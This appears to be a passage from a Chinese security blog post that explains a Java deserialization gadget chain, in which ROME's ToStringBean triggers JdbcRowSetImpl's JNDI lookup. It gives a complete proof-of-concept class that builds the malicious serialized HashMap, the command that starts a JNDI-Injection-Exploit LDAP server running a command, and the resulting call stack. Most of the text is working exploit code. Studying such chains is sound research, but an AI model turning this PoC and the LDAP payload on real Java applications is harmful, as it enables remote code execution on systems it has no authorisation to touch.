有时候 TemplatesImpl 被禁用的时候，我们可以利用 JdbcRowSetImpl 只不过我们动态加载字节码要出网了，由于一开始`ToStringBean#toString(String prefix)`方法就是进行全部 getter 的调用，然后可以发现有个 getDatabaseMetaData 方法，

```java
    public DatabaseMetaData getDatabaseMetaData() throws SQLException {
        Connection var1 = this.connect();
        return var1.getMetaData();
    }
```

跟进 connect

```java
private Connection connect() throws SQLException {
        if (this.conn != null) {
            return this.conn;
        } else if (this.getDataSourceName() != null) {
            try {
                InitialContext var1 = new InitialContext();
                DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
                return this.getUsername() != null && !this.getUsername().equals("") ? var2.getConnection(this.getUsername(), this.getPassword()) : var2.getConnection();
            } catch (NamingException var3) {
                throw new SQLException(this.resBundle.handleGetObject("jdbcrowsetimpl.connect").toString());
            }
        } else {
            return this.getUrl() != null ? DriverManager.getConnection(this.getUrl(), this.getUsername(), this.getPassword()) : null;
        }
    }
```

会调用到 lookup，但是要满足`this.getDataSourceName() != null`

```java
package org.Base.Rome;

import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.sql.rowset.BaseRowSet;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;

public class JdbcRowSetImplPoc {
    public static void main(String[] args) throws Exception{
        JdbcRowSetImpl jdbcRowset = new JdbcRowSetImpl();
        String url = "ldap://127.0.0.1:1389/mj3now";

        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,jdbcRowset);
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);

        HashMap hashMap = new HashMap();
        hashMap.put(objectBean, "bbbb");
        Field dataSource = BaseRowSet.class.getDeclaredField("dataSource");
        dataSource.setAccessible(true);
        dataSource.set(jdbcRowset, url);

        byte[] data=serialize(hashMap);
        unserialize(data);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

开启LDAP服务

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open -a Calculator" -A "127.0.0.1"
```

完整调用栈如下

```java
at javax.naming.InitialContext.lookup(InitialContext.java:417)
at com.sun.rowset.JdbcRowSetImpl.connect(JdbcRowSetImpl.java:624)
at com.sun.rowset.JdbcRowSetImpl.getDatabaseMetaData(JdbcRowSetImpl.java:4004)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:483)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:137)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:116)
at com.sun.syndication.feed.impl.EqualsBean.beanHashCode(EqualsBean.java:193)
at com.sun.syndication.feed.impl.ObjectBean.hashCode(ObjectBean.java:110)
at java.util.HashMap.hash(HashMap.java:338)
at java.util.HashMap.put(HashMap.java:611)
at org.Base.Rome.JdbcRowSetImplPoc.main(JdbcRowSetImplPoc.java:25)
```


> https://infernity.top/2025/03/01/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96ROME%E5%8E%9F%E7%94%9F%E9%93%BE/
>
> https://xz.aliyun.com/news/12729
>
> https://xz.aliyun.com/news/12214

